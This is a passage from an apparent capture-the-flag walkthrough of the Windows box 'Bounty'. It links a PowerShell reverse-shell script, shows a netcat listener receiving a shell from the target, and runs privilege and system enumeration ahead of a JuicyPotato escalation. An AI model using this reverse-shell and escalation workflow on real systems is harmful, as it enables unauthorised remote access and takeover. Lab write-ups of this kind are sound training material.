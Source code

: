 This is mini-reverse: https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1

Start listener for 4444:

```
┌──(kali㉿kali)-[~/Desktop/DownloadedScripts]
└─$ nc -lvp 4444                                                                                                   1 ⨯
listening on [any] 4444 ...
connect to [10.10.14.51] from 10.129.152.190 [10.129.152.190] 49159
id

id

whoami
bounty\merlin

cd Users\
```

Its juicypotato time:

```
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

Get-ChildItem -Recurse . user.txt
'Get-ChildItem' is not recognized as an internal or external command,
operable program or batch file.

systeminfo

Host Name:                 BOUNTY
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                55041-402-3606965-84760
Original Install Date:     5/30/2018, 12:22:24 AM
System Boot Time:          5/27/2021, 5:37:17 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
```